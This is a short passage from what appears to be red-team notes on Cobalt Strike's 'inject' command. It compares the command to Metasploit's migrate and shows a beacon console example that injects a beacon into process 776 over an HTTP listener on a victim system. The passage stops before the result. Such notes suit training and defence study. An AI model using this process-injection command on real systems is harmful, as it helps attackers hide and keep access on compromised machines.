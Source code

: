 {% content-ref url="../../miscellaneous-reversing-forensics/windows-kernel-internals/exploring-process-environment-block.md" %}
[exploring-process-environment-block.md](../../miscellaneous-reversing-forensics/windows-kernel-internals/exploring-process-environment-block.md)
{% endcontent-ref %}

### Inject

Inject is very similar to metasploit's `migrate` function and allows an attacker to duplicate their beacon into another process on the victim system:

{% code title="attacker@cs" %}
```csharp
beacon> help inject
Use: inject [pid] <x86|x64> [listener]

inject 776 x64 httplistener
```
{% endcode %}

Note how after injecting the beacon to PID 776, another session is spawned:

